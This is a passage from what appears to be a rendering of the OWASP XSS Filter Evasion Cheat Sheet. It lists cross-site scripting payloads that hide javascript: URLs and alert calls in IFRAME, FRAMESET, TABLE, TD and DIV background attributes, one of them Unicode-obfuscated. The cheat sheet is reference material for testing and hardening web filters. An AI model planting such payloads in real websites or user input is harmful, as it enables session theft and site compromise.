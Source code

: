```
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
```

### 框架[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#frame)

Frames have the same sorts of XSS problems as iframes

```
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
```

### TABLE[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#table)

```
<TABLE BACKGROUND="javascript:alert('XSS')">
```

#### TD[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#td)

Just like above, TD's are vulnerable to BACKGROUNDs containing JavaScript XSS vectors:

```
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
```

### DIV[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#div)

#### DIV Background-image[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#div-background-image)

```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```

#### DIV Background-image with Unicoded XSS Exploit[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#div-background-image-with-unicoded-xss-exploit)

This has been modified slightly to obfuscate the URL parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:

```
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
```

#### DIV Background-image Plus Extra Characters[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#div-background-image-plus-extra-characters)
